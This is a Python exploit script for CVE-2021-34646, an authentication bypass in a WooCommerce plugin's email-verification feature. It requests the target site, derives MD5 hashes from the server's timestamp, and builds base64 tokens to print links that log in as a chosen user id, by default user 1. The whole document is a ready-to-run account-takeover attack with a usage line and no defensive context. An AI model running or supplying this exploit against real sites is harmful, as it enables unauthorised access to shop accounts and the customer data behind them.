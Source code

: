 ``` python 
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
      url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
      print("status code != 200")
      print(r.headers)
      sys.exit(-1)

def email_time_to_timestamp(s):
  tt = email.utils.parsedate_tz(s)
  if tt is None: return None
  return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
  print(f"{W}Timestamp: {B}" + date)
  print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
  print("We need to generate multiple timestamps in order to avoid delay related timing errors")
  print("One of the following links will log you in...\n")

printBanner()

for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
      hash = hashlib.md5(str(unix-i).encode()).hexdigest()
      print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
      token='{"id":"'+ id +'","code":"'+hash+'"}'
      token = base64.b64encode(token.encode()).decode()
      token = token.rstrip("=") # remove trailing =
      link = url+"my-account/?wcj_verify_email="+token
      print(link + f"\n{RST}")

```
